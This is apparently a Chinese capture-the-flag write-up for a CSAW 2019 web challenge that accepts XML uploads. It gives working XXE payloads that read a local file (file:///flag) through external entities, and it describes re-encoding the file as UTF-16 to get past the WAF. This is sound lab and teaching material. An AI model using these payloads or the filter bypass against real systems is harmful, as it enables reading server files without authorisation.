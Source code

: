 ![](<./img/Pasted image 20230215154426.png>)

```
/index.php
```

![](<./img/Pasted image 20230215154507.png>)

```
/user.php
```

![](<./img/Pasted image 20230215154544.png>)

```
/upload.php
```

![](<./img/Pasted image 20230215154614.png>)

```
/sample.xml
```

```xml
<?xml version='1.0'?>
<users>
    <user>
        <username>alice</username>
        <password>passwd1</password>
        <name>Alice</name>
        <email>alice@fakesite.com</email>  
        <group>CSAW2019</group>
    </user>
    <user>
        <username>bob</username>
        <password>passwd2</password>
        <name> Bob</name>
        <email>bob@fakesite.com</email>  
        <group>CSAW2019</group>
    </user>
</users>
```

```
/about.php
```

![](<./img/Pasted image 20230215154632.png>)

尝试进行XXE

```xml
<?xml version='1.0'?>
<!DOCTYPE xxe [
	<!ENTITY flag SYSTEM "file:///flag">
]>
<users>
    <user>
        <username>sad</username>
        <password>114514</password>
        <name>CrackTC</name>
        <email>123@baidu.com</email>  
        <group>&flag;</group>
    </user>
</users>
```

![](<./img/Pasted image 20230215170047.png>)

遭到了WAF的拦截

转换文件编码为`utf16`后成功绕过

![](<./img/Pasted image 20230215171839.png>)

`group`属性貌似会被截断，干脆全改上

```xml
<?xml version='1.0'?>
<!DOCTYPE xxe [
	<!ENTITY flag SYSTEM "file:///flag">
]>
<users>
    <user>
        <username>&flag;</username>
        <password>&flag;</password>
        <name>&flag;</name>
        <email>&flag;</email>  
        <group>&flag;</group>
    </user>
</users>
```

![](<./img/Pasted image 20230215172853.png>)

然鹅都被截断了qaq

最后发现原来还有个`intro`没写在sample里

```xml
<?xml version='1.0'?>
<!DOCTYPE xxe [
	<!ENTITY flag SYSTEM "file:///flag">
]>
<users>
    <user>
        <username>&flag;</username>
        <password>&flag;</password>
        <name>&flag;</name>
        <email>&flag;</email>
        <group>&flag;</group>
        <intro>&flag;</intro>
    </user>
</users>
```

![](<./img/Pasted image 20230215173018.png>)

#Web #XXE #encoding #bypass